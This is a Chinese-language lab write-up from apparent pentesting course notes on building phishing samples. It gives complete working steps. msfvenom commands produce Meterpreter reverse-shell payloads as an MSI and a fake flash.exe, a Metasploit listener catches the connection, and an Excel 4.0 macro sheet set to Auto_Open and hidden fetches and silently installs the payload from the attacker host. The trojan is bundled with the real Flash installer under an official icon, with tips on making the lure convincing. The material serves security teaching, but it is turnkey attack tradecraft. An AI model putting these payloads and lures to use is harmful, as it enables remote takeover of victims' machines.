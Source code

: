 ```yaml
---
title: 实验五--钓鱼技术
category: 学习笔记
tags: [网络渗透测试技术、钓鱼、木马]
published: 2025-04-23 11:53:14
permalink: /course/2wqhr1z8/
---
```

## 实验目的

1、学会制作简单的钓鱼样本并理解钓鱼样本木马的工作原理.

## 实验任务

1、制作恶意的excel文件

2、将正常的软件和恶意木马进行捆绑打包

## 实验步骤

### excel宏

输入下列命令后，即可在目录下看到生成的msi

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.100.129 lport=1234 -f msi -o diaoyu.msi
```

![image-20240714204850148](./images/202407142110164.png)

然后启动msf，使用multi/handler模块，并设置好对应的payload，然后输入run，进行监听

![image-20240714204924242](./images/202407142110165.png)

然后启动python的http服务，是为了后续制作宏的时候提供网络服务

![image-20240714204934617](./images/202407142110076.png)

在自己的电脑上创建一个excel表格（实际情况下，文件名要符合实际，有吸引力，里面的内容最好也是真实的，这里因为是实验环境，所以数据都是捏造的)

![image-20240714204948779](./images/202407142110166.png)

然后插入宏表

![image-20240714205003681](./images/202407142110167.png)

![image-20240714205014322](./images/202407142110168.png)

打开浏览器输入kali的ip地址，看到下图后右键diaoyu.msi，选择复制链接地址

![image-20240714205024076](./images/202407142110169.png)

 然后在表格第一行输入

```bash
 =EXEC("msiexec /q /i http://192.168.100.129/shell.msi")
```

 第二行输入

```bash
 =HALT()
```

然后选择A1的框，把A1改成Auto_Open（让excel打开时自动执行宏）然后回车即可

![image-20240714205100492](./images/202407142110170.png)

 然后就是隐藏宏，右键“宏1”，然后选择隐藏

![image-20240714205108651](./images/202407142110171.png)

 然后保存为启用宏的文件，点击保存类型，选择里面的启用宏的工作簿即可

![image-20240714205113197](./images/202407142110172.png)

 然后把文件传到靶机上，我这里以Windows7为例
 在靶机上点开文件并启用内容

![image-20240714205125500](./images/202407142110173.png)

 然后切回kali即可看到成功连接上，输入shell即可获得相应的shell

![image-20240714205131436](./images/202407142110174.png)

### 常规软件捆绑远控木马进行钓鱼

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.100.133 LPORT=7777 -f exe -o flash.exe
```

因为是msf直接生成的没有做免杀，所以拷到本地的时候记得关闭安全软件，不然会报毒

然后还要去flash官网下载一个真正的，图片右一

![image-20240714205158278](./images/202407142110175.png)

把这两个文件按下列图片进行压缩打包，为了降低受害者的心里防备，最好是可以把打包好的应用的图标改成官方的图标。

![image-20240714205250711](./images/202407142110176.png)

![image-20240714205254262](./images/202407142110177.png)

![image-20240714205300874](./images/202407142110178.png)

把制作好的恶意文件放到靶机上运行即可成功上线

![image-20240714205305641](./images/202407142110179.png)
